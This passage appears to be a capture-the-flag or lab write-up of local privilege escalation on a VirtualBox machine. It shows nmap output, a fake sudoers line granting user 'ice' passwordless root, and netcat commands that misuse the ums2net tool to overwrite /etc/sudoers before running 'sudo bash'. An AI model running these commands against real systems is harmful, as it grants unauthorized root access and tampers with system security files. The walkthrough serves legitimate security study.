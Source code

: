 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nmap -Pn -sSVC -p5555 -T5 192.168.56.137`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-10 12:43 CEST
Nmap scan report for 192.168.56.137
Host is up (0.0017s latency).

PORT      STATE SERVICE    VERSION
5555/tcp open  tcpwrapped ←
MAC Address: 08:00:27:13:83:82 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.69 seconds
```

`echo -e "ice\tALL=(ALL) NOPASSWD: ALL" | tee ./fake_sudoers`:
```
ice     ALL=(ALL) NOPASSWD: ALL
```

`nc 192.168.56.137 5555 < ./fake_sudoers -q 0`

![Victim: ice](https://img.shields.io/badge/Victim-ice-64b5f6?logo=linux&logoColor=white)

```
ums2net[2310]: Device /dev/disk/by-id/ata-VBOX_HARDDISK_VB0d0bf3c8-2442609b-part1/etc/sudoers not appeared. Close immediately. ←
```

</❌ Failed Step.>

![Victim: ice](https://img.shields.io/badge/Victim-ice-64b5f6?logo=linux&logoColor=white)

`echo "6666 of=/etc/sudoers bs=4096" | tee ./config`:
```
6666 of=/etc/sudoers bs=4096
```

`sudo /usr/sbin/ums2net -c ./config -d`:
```
/etc/sudoers:2:10: error de sintaxis
with the 'visudo' command as root.
         ^~~~~~~~
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc 192.168.56.137 6666 < ./fake_sudoers -q 0`

![Victim: ice](https://img.shields.io/badge/Victim-ice-64b5f6?logo=linux&logoColor=white)

```
ums2net[656]: Totally write 28 bytes to /etc/sudoers ←
```

`sudo bash`
